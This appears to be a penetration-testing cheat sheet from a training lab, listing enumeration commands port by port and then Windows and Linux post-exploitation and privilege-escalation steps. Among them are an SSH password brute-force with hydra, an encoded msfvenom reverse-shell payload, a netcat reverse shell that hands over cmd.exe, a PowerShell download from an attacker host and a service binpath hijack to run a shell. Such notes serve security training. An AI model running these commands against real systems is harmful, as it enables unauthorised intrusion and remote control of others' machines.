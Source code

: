 # Initial Reconnaissance:
Main Nmap Scan: nmap -v -A -sS 10.11.1.X
Alternate Connect Scan: nmap -v -sT -p 0-10000 10.11.1.X

# Ports and Services:
# 21: FTP
		
Methods and Tools:
Notes:
Service version research
Google / ExploitDB from nmap scan
netcat/telnet interaction
nc 10.11.1.X 21  Commands: https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands 
Nmap NSE FTP scripts
nmap -v 10.11.1.X --script “ftp*”
dotdotpwn
dotdotpwn -h 10.11.1.X -m ftp

# 22: SSH

Methods and Tools:
Notes:
Service version research
It’s almost never ssh, ExploitDB/Google 
hydra
Hydra -l user -P /usr/share/wordlists/rockyou.gz 10.11.1.X SSH


# 25: SMTP

Methods and Tools:
Notes: 
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smtp*”
smtp-user-enum
smtp-user-enum -u username -U usernamelist.txt -t 10.11.1.X


# 53: DNS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “dns*”
DNSenum
dnsenum URL.com


# 80/443/8080: HTTP/HTTPS

Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “http*”
Dirbuster
GUI, /usr/share/wordlists/dirbuster
nikto
Nikto -h 10.11.1.X
Burpsuite
Webproxy, set up for Iceweasel
Curl
Data transfer, not as useful
Cadaver/davtest
Useful for webDAV stuff, more specific
Wpscan
Only for wordpress


# 110: POP3
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “pop*”
Netcat/telnet interaction
nc 10.11.1.X 110





# 135: RPC
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “rpc*”
enum4linux
enum4linux 10.11.1.X
rpcclient
rpcclient -U “” 10.11.1.X for null session

	
# 139: NETBIOS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
nbtscan
nbtscan -v 10.11.1.X
enum4linux
enum4linux 10.11.1.X


# 445: SMB
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smb*”
enum4linux
enum4linux 10.11.1.X
smbclient
smbclient "//10.11.1.128/wwwroot" - Connects to smb shares mapped with enum4linux
smbmap
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
nbtscan
nbtscan -v 10.11.1.X




## Windows Post-Exploitation
	
General Toolkit
Method and Tools:
Notes and Links: 
Powershell File Download
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.243/test.txt','C:\test.txt)”
General File Transfer
https://blog.ropnop.com/transferring-files-from-kali-to-windows/ 
Mingw Compiling for Windows
i686-w64-mingw32-g++ -o evil.exe 37098.txt -lws2_32
Dos2unix (Gets rid of /bin/sh^5 error)
dos2unix <filename> 
Payload Encoding (On Kali) 
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.243 LPORT=1777 -f exe -o rever.exe -e x86/shikata_ga_nai -k
Windows netcat reverse shell
nc.exe 192.168.100.113 4444 –e cmd.exe


# Privilege Escalation
	
Method and Tools:
Notes and Links:
General Guide
http://www.fuzzysecurity.com/tutorials/16.html 
Accesschk.exe
https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk 
Windows Enum
https://github.com/azmatt/windowsEnum 
WinExpSugg
https://github.com/GDSSecurity/Windows-Exploit-Suggester 
WinPrivChk
https://github.com/pentestmonkey/windows-privesc-check 
Service Privesc
sc config SSDPSRV start= “auto”
net start SSDPSRV
net start UPNPHOST
sc config upnphost binpath= “C:\shell.exe”
sc config upnphost obj= “.\LocalSystem” password= “”
net start upnphost




## Linux Post-Exploitation

General Toolkit:
Method and Tools:
Notes and Links:
Shell Cheatsheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 
Shell Escape
python -c 'import pty; pty.spawn("/bin/sh")'  
File Transfer
https://www.pks.mpg.de/~mueller/docs/suse10.2/html/opensuse-manual_en/manual/sec.filetrans.copy.html 
Exploit/multi/handler
Set payload
Set LPORT
Set LHOST
Set EXITFUNC


# Privilege Escalation:

Method and Tools:
Notes and Links:
General Guide
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
Exploit Suggester
https://github.com/mzet-/linux-exploit-suggester 
LinEnum*
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh 
Unix Privesc Check
https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh 
LinPrivChecker
https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

	
	
	


